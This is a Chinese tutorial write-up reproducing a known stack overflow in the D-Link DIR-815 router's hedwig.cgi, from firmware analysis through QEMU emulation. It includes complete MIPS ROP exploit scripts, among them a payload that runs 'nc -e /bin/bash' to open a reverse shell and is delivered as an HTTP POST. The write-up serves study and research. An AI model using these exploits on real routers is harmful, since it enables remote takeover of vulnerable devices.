# DIR-815 栈溢出漏洞-先知社区

> **来源**: https://xz.aliyun.com/news/17924  
> **文章ID**: 17924

---

### DIR-815 栈溢出漏洞

**前言**：在每次复现前我都会尽量把文章通过通俗易懂的方式展现出来，目的就是希望一些刚刚入门iot的师傅们能有个更好的观看体验，如果有师傅发现了其中的错误还请指出

### 复现环境：Ubuntu22.04TLS

cnvd报告：[国家信息安全漏洞共享平台](https://www.cnvd.org.cn/flaw/show/CNVD-2013-11625)

### 分离固件

是一个比经典的漏洞了，但是对于像我这种刚刚入门的人来说复现起来还是很有挑战性的，后面的qeum的用户模式和系统模式的复现都容易出问题需要及时解决



官方报告是`hedwig.cgi`出现了栈溢出漏洞，把附件下载下来通过`binwalk`进行分离

```
~/_DIR/squashfs-root-> find ./ -name hedwig.cgi
./htdocs/web/hedwig.cgi
```

发现在`/htdocs/web/`目录下面存在这个文件

```
~/_DIR/squashfs-root/htdocs/web-> ll hedwig.cgi 
lrwxrwxrwx 1 su su 14  1月 15 23:09 hedwig.cgi -> /htdocs/cgibin
```

发现这是一个软连接，链接到了`/htdocs/cgibin`，那么对这个文件进行逆向分析

```
    Arch:     mips-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

### 逆向分析

32位小端序程序

定位到`main`函数中



这里进行了字符串比较，随后进入`hedwigcgi_main`函数



规定了`post`请求方式，并且`getenv`取得对应的请求方式



随后进入`cgibin_parse_request`函数，一上来获取3个环境变量



`CONTENT_TYPE`可以用最常见的表单提交格式`application/x-www-form-urlencoded`

进行往下会调用`sess_get_uid`函数



同样上来也是获取环境变量`cookie`



这里可以看见做了一个特定字符判断，`=`号之前的东西给了`v2`,后面的给了`v4`



随后对`v2`进行的判断看看里面有没有`uid`，如果有的话把`v4`传递给`v8`,最后给了`v1`也就是传入的`sess_get_uid`函数的参数



出去之后调用的`sprintf`函数，把`v6`也就是`v4`进行格式化输入到`v27`里面，但是`v4`的长度是用户可以控制的，而`v27`只有`0x400`的长度，因此这里存在溢出的风险



同样后面还有一个类似的而且`v4`的值没有变化，是可控的



那么如果能执行到最后会进行溢出，但是其中有一些判断需要绕过

也就是下面这两个，当然第一个真机里面肯定是有这个的，但是在测试的时候需要创建对应的文件夹来进行模拟



还有第二个判断`haystack`出现在调用函数的第一个参数里面也是一个函数





`sub_409A6C`函数**需要**`POST`**传入内容**的时候才能走到



进而进行跳转



**这里在调试发现调用了**`sub_403b10`**函数**





ida里面**重构一下函数**

这里再次调用





这里发现也就是调用了`sub_409a6c`



因此刚刚`v9`那里需要调用成功也就是**不能等于-1**



这里还需要对应的请求`URL`

然后到这里就可以到溢出点了，现在就可以着手构造`ROP`链了

#### mips相关知识

在此之前需要对`mips`架构下的汇编有一定的理解，这里说明一下`mips`架构下一些和`amd`架构不同的地方，`mips`架构在函数调用的时候如果是叶子函数（即这个函数里面没有调用其他的函数）它的返回地址会保存至`$ra`里面，但是如果它调用了多个地址那么会把它的返回地址放入栈中，因为`$ra`肯定要存储子函数的返回地址等等，当然在此之前还会把参数`s0-s7`依次放入栈中，所有在溢出的时候可以合理的控制参数来实现`ROP`,类似下面这种会之间把栈上的偏移赋值给寄存器



但是对于32位`mips`架构来说前面的参数在`a0-a3`寄存器中，多余的参数会通过`lw`放在栈上,因此还需要找一些gadget来实现参数的转移，比如`move`指令等等

类似于下面这种



还有一个特性就是**流水线效应**，举个例子，就拿上面这个图来说\*\*，jalr**跳转命令的下一条命令为**分支延迟槽\*\*，也就是说像这种跳转指令在跳转的时候会出现分支延迟效应，在跳转的时候下一个指令也已经被执行了，在例子中就是在跳转到`$t9`之前，`$t2`的值会给`$a2`,这样的话找`gadget`的时候又会多一种选择，了解完这个就可以开始测试具体偏移了

#### 测试偏移

在系统文件目录下创建一个shell脚本命名为`start.sh`并加上执行权限，payload里面可以写`cyclic 0x1000`命令的结果

```
#!/bin/bash
 
# 定义输入数据和相关变量
INPUT="CH13hh=BabyBot"                          # 发送的数据内容
LEN=$(echo -n "$INPUT" | wc -c)                 # 计算内容长度
COOKIE="uid=`cat payload`"   
 
echo $INPUT | qemu-mipsel -L ./ -0 "hedwig.cgi" -E REQUEST_METHOD="POST" -E CONTENT_LENGTH=$LEN -E CONTENT_TYPE="application/x-www-form-urlencoded" -E HTTP_COOKIE=$COOKIE -E REQUEST_URI="2333" -g 1234 ./htdocs/cgibin


#-0 参数用于强制设置程序的 argv[0] 值， 后面的 -E 是设置环境变量了 -g 指定端口 echo 可以实现post的功能
```

另开一个终端设置完架构之后通过`targe remote 127.0.0.1:1234` 连接一下，可以下一个断点快速到溢出位置



这里可以看见已经溢出了，通过`cyclic -l` 来测试一下偏移



可以看见是`1009`，也就是到返回地址之前需要填充`1009`个字节数据

#### 找寻libc基地址

因为在用户模式下，qeum不能很好的反映出libc地址就像下面这种



但是可以通过延迟绑定的形势寻找`libc`的基地址



可以看见在程序的开通调用了两次`memest`



断点到这里即可寻找对于的`libc`地址，然后去`libc`文件里面寻找对应的偏移即可找到`libc`基地址


这里已经找到了，因为在真机上面他的`aslr`是未开启的所以模拟的时候也是不开启的，**而**`qeum`**用户模式下这个也是不开启的**



这样就可以找到`libc`基地址了，其实后来测试到这里之间`vmmap`也可以看见基地址



随后就可以找一下`system`的偏移了



不过这里`system`的最后一给字节是`00`在`sprintf`的时候会被截断，同样在找`gadget`的时候也不要找存在`00`的，既然存在截断那么可以把`system`减去一个值然后找一个`gadget`将其加上即可，比如减去`1`等等。

#### 用户模式下模拟

根据上面分析的可以构造出一个`ROP`链,shell=True，在终端执行

```
from gt import *
con("mips")

libc_base = 0x3ff38000


payload = b'a'*(1009-36)
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
payload += p32(libc_base + 0x159F4) # s1  move $t9, $s0 
payload += b'a'*4                   #s2
payload += p32(libc_base + 0x5A448) # s3  /bin/sh
payload += b'a'*(4*2)               #s4-s5
payload += p32(libc_base + 0x32A98) # s6  addiu $s0, 1 
payload += b'a'*(4*2)               #s7-s8
payload += p32(libc_base + 0x13F8C) # ret_addr  move $a0, $s3 

'''
.text:00013F8C                 move    $a0, $s3
.text:00013F90                 move    $t9, $s6
.text:00013F94                 jalr    $t9
.text:00013F98                 move    $a1, $s1


.text:000159F4                 move    $t9, $s0
.text:000159F8                 jalr    $t9 ; mempcpy
.text:000159FC                 addiu   $a1, (asc_599FC - 0x60000)  # "/"


.text:00032A98                 addiu   $s0, 1
.text:00032A9C                 li      $s2, 1
.text:00032AA0
.text:00032AA0 loc_32AA0:                               # CODE XREF: sub_32850:loc_32A88↑j
.text:00032AA0                 move    $t9, $s1
.text:00032AA4                 jalr    $t9

'''


payload = b"uid=" + payload
post_content = "CH13hh=BabyBot"
io = process(b"""
    qemu-mipsel -L ./ \
    -0 "hedwig.cgi" \
    -E REQUEST_METHOD="POST" \
    -E CONTENT_LENGTH=14 \
    -E CONTENT_TYPE="application/x-www-form-urlencoded" \
    -E HTTP_COOKIE="""" + payload + b"""" \
    -E REQUEST_URI="2333" \
    -g 1234 ./htdocs/cgibin
""", shell = True)
io.send(post_content)

io.interactive()
```

最终效果如下



#### 系统模式下模拟

要想在系统模式下进行模拟，**首先需要下载对应的镜像以及内核**

[Index of /~aurel32/qemu/mipsel](https://people.debian.org/~aurel32/qemu/mipsel/)

到上面这个网站下下 `debian_squeeze_mipsel_standard.qcow2`镜像以及 `vmlinux-3.2.0-4-4kc-malta` 内核

在开始模拟之前需要开启物理机的ip转发功能，以及创建网桥来连接到`qemu`虚拟机

安装网络配置工具：`apt-get install bridge-utils uml-utilities`  
开启：`sysctl -w net.ipv4.ip_forward=1`

配置一下`/etc/network/interfaces`文件

```
auto lo
iface lo inet loopback

auto ens33
iface ens33 inet manual
    up ifconfig ens33 0.0.0.0 up

auto br0
iface br0 inet dhcp
    bridge_ports ens33
    bridge_maxwait 0
```

这里根据情况来定，如果宿主机上面是ens33那就不用修改如果是eth0那就把ens33换成eth0即可

下面是启动脚本，`start.sh chmo+x` 加上执行权限

```
#!/bin/bash
sudo qemu-system-mipsel \
    -M malta -kernel vmlinux-3.2.0-4-4kc-malta \
    -hda debian_squeeze_mipsel_standard.qcow2 \
    -append "root=/dev/sda1 console=tty0" \
    -net nic,macaddr=00:16:3e:00:00:01 \
    -net tap
```

启动起来之后通过`scp` 命令把文件系统copy过去，可能会出现报错，因为在老版本中需要指定一下算法`-o HostkeyAlgorithms=ssh-rsa`

之后就正常`ssh`即可，如果是第一次启动需要`ip a`看一下qeum虚拟机对应的网卡，应该是eth1 然后配置一下`/etc/network/interfaces`文件修改成对应的网卡名称即可

##### 启动http服务

```
# 设置服务器的文件权限掩码，Umask 026 表示：
# - 文件所有者（用户）：读写权限（rw-）
# - 同组用户（组）：只读权限（r--）
# - 其他用户（其他）：无权限（---）
Umask 026  

# 定义 PID 文件的存储路径。PID 文件记录服务器进程的进程 ID，方便管理。
PIDFile /var/run/httpd.pid  

# 启用日志记录时使用 GMT 时间（标准时间），而不是本地时间。
LogGMT On  

# 指定错误日志的存储路径为 /log。记录服务器运行时发生的错误信息。
ErrorLog /log  

 
Tuning
{
    NumConnections 15       # 限制最大并发连接数为 15
    BufSize 12288           # 定义服务器的总缓冲区大小为 12288 字节（12 KB）
    InputBufSize 4096       # 定义输入缓冲区大小为 4096 字节（4 KB）
    ScriptBufSize 4096      # 定义脚本缓冲区大小为 4096 字节（4 KB）
    NumHeaders 100          # 最大支持的 HTTP Header 数量为 100
    Timeout 60              # 设置超时时间为 60 秒（请求超时限制）
    ScriptTimeout 60        # 脚本执行的超时时间为 60 秒
}

 
Control
{
    Types # 定义 MIME 类型的映射关系（文件扩展名与内容类型对应）
    {
        text/html    { html htm }                # HTML 文件对应的 MIME 类型
        text/xml     { xml }                     # XML 文件对应的 MIME 类型
        text/plain   { txt }                     # 文本文件对应的 MIME 类型
        image/gif    { gif }                     # GIF 图片文件对应的 MIME 类型
        image/jpeg   { jpg }                     # JPEG 图片文件对应的 MIME 类型
        text/css     { css }                     # CSS 文件对应的 MIME 类型
        application/octet-stream { * }          # 默认 MIME 类型，用于任意文件（通常是二进制文件）
    }

    Specials # 定义特殊文件类型的处理方式
    {
        Dump        { /dump }                   # 支持转储（Dump）操作
        CGI         { cgi }                     # 支持 CGI 脚本文件
        Imagemap    { map }                     # 支持映射文件
        Redirect    { url }                     # 支持 URL 重定向
    }

    External # 定义外部程序与文件扩展名的关联关系
    {
        /usr/sbin/phpcgi { php }                # PHP 文件通过 /usr/sbin/phpcgi 程序处理
    }
}

 
Server
{
    ServerName "Linux, HTTP/1.1, "  # 服务器名称和支持的 HTTP 协议版本
    ServerId "1234"                # 服务器标识符

    Family inet                    # 指定网络协议族（inet 表示 IPv4）
    Interface eth1                 # 指定服务器绑定的网络接口（eth1）
    Address 192.168.102.147        # 服务器绑定的 IP 地址
    Port "1234"                    # 服务器监听的端口号（1234）

    Virtual # 定义虚拟主机配置（允许多个主机共享一台物理服务器）
    {
        AnyHost # 匹配任何主机名（无特定限制）
        Control # 定义虚拟主机的基本配置
        {
            Alias /                # 定义 URL 路径根目录的别名
            Location /htdocs/web   # 根目录映射到 /htdocs/web 路径
            IndexNames { index.php } # 设置默认访问文件名为 index.php

            External # 定义虚拟主机下的外部程序处理方式
            {
                /usr/sbin/phpcgi { router_info.xml } # 使用 /usr/sbin/phpcgi 处理 router_info.xml
                /usr/sbin/phpcgi { post_login.xml } # 使用 /usr/sbin/phpcgi 处理 post_login.xml
            }
        }

        Control # 定义另一个虚拟主机的配置
        {
            Alias /HNAP1            # 定义 /HNAP1 路径的别名
            Location /htdocs/HNAP1  # 映射到文件路径 /htdocs/HNAP1
            External
            {
                /usr/sbin/hnap { hnap } # 使用 /usr/sbin/hnap 处理 hnap 文件
            }
            IndexNames { index.hnap } # 默认访问文件名为 index.hnap
        }
    }
}

```

`init.sh` 初始化和结束部分 `fin.sh` 具体可以参考[[原创] 从零开始复现 DIR-815 栈溢出漏洞-二进制漏洞-看雪-安全社区|安全招聘|kanxue.com](https://bbs.kanxue.com/thread-272318.htm#msg_header_h2_0)

```
cp http_conf /
cp sbin/httpd /
cp -rf htdocs/ /
mkdir /etc_bak
cp -r /etc /etc_bak
rm /etc/services
cp -rf etc/ /
cp lib/ld-uClibc-0.9.30.1.so  /lib/
cp lib/libcrypt-0.9.30.1.so  /lib/
cp lib/libc.so.0  /lib/
cp lib/libgcc_s.so.1  /lib/
cp lib/ld-uClibc.so.0  /lib/
cp lib/libcrypt.so.0  /lib/
cp lib/libgcc_s.so  /lib/
cp lib/libuClibc-0.9.30.1.so  /lib/
cd /
rm -rf /htdocs/web/hedwig.cgi
rm -rf /usr/sbin/phpcgi
rm -rf /usr/sbin/hnap
ln -s /htdocs/cgibin /htdocs/web/hedwig.cgi
ln -s /htdocs/cgibin /usr/sbin/phpcgi
ln -s  /htdocs/cgibin /usr/sbin/hnap
./httpd -f http_conf

```

退出`qeum`的时候记得执行这个脚本，不然下次启动会出问题

```
#!/bin/bash
rm -rf /etc
mv /etc_bak/etc /etc
rm -rf /etc_bak
```

##### 直接发送payload给qemu

```
from gt import *
con("mips")

libc_base = 0x77f34000
cmd = b'nc -e /bin/bash 192.168.102.145 8888'

payload = b'a'*(1009-36)
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1

payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 
payload += b'a'*(4*7)
payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
payload += b'a'*0x18
payload += cmd
'''
.text:000169C4                addiu   $s2, $sp, 0x170+var_158
.text:000169C8                 move    $a2, $v1
.text:000169CC                 move    $t9, $s0
.text:000169D0                 jalr    $t9 ; mempcpy
.text:000169D4                 move    $a0, $s2


.text:00032A98                 addiu   $s0, 1
.text:00032A9C                 li      $s2, 1
.text:00032AA0
.text:00032AA0 loc_32AA0:                               # CODE XREF: sub_32850:loc_32A88↑j
.text:00032AA0                 move    $t9, $s1
.text:00032AA4                 jalr    $t9

'''
 
fd = open("payload", "wb")
fd.write(payload)
fd.close()
```

这个要下载`gdbserver.mipsel`进行调试查看对应的libc基地址

```
#!/bin/bash
export CONTENT_LENGTH="14"
export CONTENT_TYPE="application/x-www-form-urlencoded"
export HTTP_COOKIE="uid=`cat payload`"
export REQUEST_METHOD="POST"
export REQUEST_URI="2333"
echo "CH13hh=BabyBot"|./gdbserver.mipsel 192.168.102.147:8888 /htdocs/web/hedwig.cgi
unset CONTENT_LENGTH
unset CONTENT_TYPE
unset HTTP_COOKIE
unset REQUEST_METHOD
unset REQUEST_URI
```



##### 通过URl发送http报文

```
from gt import *
import requests
con("mips")

libc_base = 0x77f34000
cmd = b'nc -e /bin/bash 192.168.102.145 8888'


# libc_base = 0x77f34000
# cmd = b'nc -e /bin/bash 192.168.102.145 8888'

payload = b'a'*(1009-36)
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1

payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
payload += b'a'*(4*7)
payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
payload += b'a'*0x18
payload += cmd
'''
.text:000169C4                addiu   $s2, $sp, 0x170+var_158
.text:000169C8                 move    $a2, $v1
.text:000169CC                 move    $t9, $s0
.text:000169D0                 jalr    $t9 ; mempcpy
.text:000169D4                 move    $a0, $s2


.text:00032A98                 addiu   $s0, 1
.text:00032A9C                 li      $s2, 1
.text:00032AA0
.text:00032AA0 loc_32AA0:                               # CODE XREF: sub_32850:loc_32A88↑j
.text:00032AA0                 move    $t9, $s1
.text:00032AA4                 jalr    $t9

'''
 
url = "http://192.168.102.147:1234/hedwig.cgi"
data = {"CH13hh" : "BabyBot"}
headers = {
    "Cookie"        : b"uid=" + payload,
    "Content-Type"  : "application/x-www-form-urlencoded",
    "Content-Length": "14"
}
res = requests.post(url = url, headers = headers, data = data)
print(res)


```



### 参考

[原创 从零开始复现 DIR-815 栈溢出漏洞-二进制漏洞-看雪-安全社区|安全招聘|kanxue.com](<https://bbs.kanxue.com/thread-272318.htm#msg_header_h2_0)>
